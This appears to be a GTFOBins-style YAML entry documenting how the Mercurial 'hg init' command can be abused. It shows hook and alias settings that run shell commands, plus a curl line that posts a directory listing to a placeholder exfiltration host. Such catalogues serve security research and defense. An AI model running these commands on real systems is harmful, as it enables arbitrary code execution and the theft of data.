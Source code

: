 ```yaml
---
description: hg (Mercurial) is a source control management tool.
functions:
  command:
    - code: |
        hg init --config=hooks.pre-init="sh -c 'ls'"
    - code: |
        hg init --config=alias.init="!uname -a"
  file-upload:
    - code: |
        hg init --config=alias.identify=!curl http://exfiltration-host.tld --data "$(ls -alh)"
---
```

